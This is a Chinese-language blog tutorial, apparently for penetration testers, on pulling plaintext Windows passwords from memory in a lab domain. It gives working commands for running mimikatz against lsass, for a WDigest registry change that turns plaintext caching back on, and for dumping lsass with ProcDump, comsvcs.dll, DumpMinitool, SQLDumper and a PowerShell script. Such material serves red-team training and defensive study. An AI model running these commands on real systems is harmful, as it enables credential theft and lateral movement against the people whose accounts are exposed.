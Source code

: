 ```yaml
---
title: Windows明文密码获取
description: Windows明文密码获取
pubDate: 01 19 2025
image: https://img.trtyr.top/images/blog/Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96/001%20Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96-16.webp
categories:
  - 网络安全
tags:
  - 密码抓取
  - 其他
---
```


密码抓取，我们得先知道密码可能在哪。在 NTLM 那里，我们介绍了一个 `SAM` 文件，当用户在登录界面，输入账户密码时，`winlogon` 进程会将用户输入的密码传给 `lsass` 进程。此时 `lsass` 进程里面会有一份明文账户密码，然后经过 `NTLM Hash` 处理，把处理到的结果和 `SAM` 文件进行对比，判断用户是否能够登录成功。

所以这个明文密码，就是利用 `lsass` 进程会在内存中保存明文密码这一点进行操作。

> 注意：在安装了 `KB2871997` 补丁的系统以及 `WIN 10` 或 `WIN 2012` 以上, 默认不在内存中保存明文密码；在 `Windows Server 2012 R2` 中，新增了一个 `Protected Users` 安全组，将用户加入到该组，用户的明文密码就不会被获取

## 利用 Mimikatz 直接获取明文密码

我们在 `Win7` 环境中进行测试。此方法可以获取到**登录过的**用户的明文密码

正常工作组用户 `trtyr:admin!123` 使用 `mimikatz.exe`

```shell
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords fill" "exit"
```

![](https://img.trtyr.top/images/blog/Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96/001%20Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96-2.webp)

可以看到，左侧是普通权限，运行命令出现了错误；右侧获取到了 `WIN7` 本地工作组的明文账号密码 `trtyr:admin!123`，以及用户的 `NTLM Hash`。而且下面还获取到了两个域用户的明文账号密码

![](https://img.trtyr.top/images/blog/Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96/001%20Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96-3.webp)

我们接着使用域账号 `TRTYR\trtyr:root` 登录，试试效果。

![](https://img.trtyr.top/images/blog/Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96/001%20Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96-4.webp)

可以看到效果一样。

## 修改注册表获取明文密码

有的时候会出现这种情况

![](https://img.trtyr.top/images/blog/Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96/001%20Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96-5.webp)

这是因为系统默认禁止在内存缓存中保存明文密码，`Password` 字段显示为 `null`。此时可以通过修改注册表的方式抓取明文

```
# 允许保存明文密码
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f

# 禁止保存明文密码，默认值
reg add HKLMSYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0 /f
```

![](https://img.trtyr.top/images/blog/Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96/001%20Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96-6.webp)

在显示"操作成功"后，需要**用户重新登录**才可生效。

![](https://img.trtyr.top/images/blog/Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96/001%20Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96-7.webp)

现在登录的是 `TRTYR\administrator` 用户，切换到 `TRTYR\trtyr` 用户

![](https://img.trtyr.top/images/blog/Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96/001%20Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96-8.webp)

获取 `TRTYR\trtyr` 的明文密码。

## 转储lsass.exe进程

如果由于某些原因无法将 `mimikazt` 上传至目标机器，可以将 `lsass.exe` 进程进行转储。

### 任务管理器转储

在 `任务管理器` 的 `详细信息` 里，找到 `lsass.exe`，然后右键选择 `创建转储文件`，随后就会在目标位置生成一个 `lsass.DMP`

![](https://img.trtyr.top/images/blog/Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96/001%20Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96-9.webp)

把这个拿出来，和自己的 `mimikazt` 放在一起，执行命令

```powershell
.\mimikatz.exe "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" "exit"
```

得到目标当前登录的域用户的密码信息。

![](https://img.trtyr.top/images/blog/Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96/001%20Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96-10.webp)

### ProcDump(白名单) 转储

微软自己有一个工具，`ProcDump`，它是一个命令行实用工具，其主要用途是在管理员或开发人员可用于确定峰值原因的峰值期间监视 CPU 峰值和生成故障转储的应用程序。

> 下载地址：https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump

将程序上传到目标靶机，然后执行命令创建 `lsass` 的转储文件

```
Procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```

该操作需要管理员权限

![](https://img.trtyr.top/images/blog/Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96/001%20Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96-11.webp)

然后就是和上面的一样了

### Comsvcs.dll 转储

`comsvcs.dll` 是 Windows 操作系统中的一个动态链接库（DLL），负责提供 `Component Services` 的核心功能。这个组件服务是一个用于构建分布式、可重用组件的系统，其中使用了 `COM` 和事务处理。

`comsvcs.dll` 作为Windows自带的DLL文件，它包含了一个名为 `MiniDump` 的函数，而该函数底层调用了 `MiniDumpWriteDump` 接口，我们可以利用该函数创建指定进程的转储文件。

1. 获取 `lsass` 进程 `PID`

```shell
tasklist | findstr /i lsass
```

![](https://img.trtyr.top/images/blog/Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96/001%20Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96-12.webp)

2. 开启`SeDebugPrivilege`特权

利用 `comsvcs.dll` 导出转储文件，还需要开启 `SeDebugPrivilege` 权限，但是 `cmd` 本身是禁用 `SeDebugPrivilege` 特权的。我们可以直接使用 `powershell` 进行操作，因为 `powerhsell` 默认是启用。

```
powershell rundll32.exe comsvcs.dll,MiniDump 696 C:\Users\trtyr.TRTYR\Desktop\lsass.dmp full
```

![](https://img.trtyr.top/images/blog/Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96/001%20Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96-13.webp)

然后就是用 `mimikatz` 读取 `lsass.dmp`

### DumpMinitool 转储

这是 `VS 2022` 自带的一个工具，可以利用该程序来导出 `lsass` 进程。

> 下载链接：https://pan.baidu.com/s/1szIjSGscsg1KeQOKSuM3kg?pwd=weq6

运行命令

```shell
DumpMinitool.exe --file lsass.dmp --processId 696 --dumpType Full
```

生成的 `lsass.dmp` 去 `mimikatz` 导出就行了。

### # PowerLsassSilentProcessExit 转储

这是一个 `ps` 脚本，会在目标位置生成一个文件夹，文件夹内会生成两个 `dmp`，一个是目标进程，也就是 `lsass` 的转储文件，一个是 `powershell` 的 `dmp`

> 下载链接：https://github.com/CompassSecurity/PowerLsassSilentProcessExit

执行命令

```powershell
Set-ExecutionPolicy -Scope CurrentUser RemoteSigned
PS C:\Users\trtyr.TRTYR\Desktop> .\PowerLsassSilentProcessExit.ps1 -DumpMode 0 -DumpPath C:\Users\trtyr.TRTYR\Desktop
```

得到文件夹，内容如下

![](https://img.trtyr.top/images/blog/Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96/001%20Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96-14.webp)

使用 `mimikatz` 导出就行了

### SQLDumper(白名单) 转储

`Sqldumper.exe` 实用工具包含在 `Microsoft SQL Serve` r 中。它生成用于调试目的 `SQL Server` 和相关进程的内存转储。

`SQLDumper.exe` 包含在 `Microsoft SQL` 和 `Office` 中，可生成完整转储文件。

```
tasklist /svc | findstr lsass.exe  查看lsass.exe 的PID号
Sqldumper.exe <ProcessID> 0 0x01100  导出mdmp文件
```

![](https://img.trtyr.top/images/blog/Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96/001%20Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96-15.webp)

然后本地解密即可
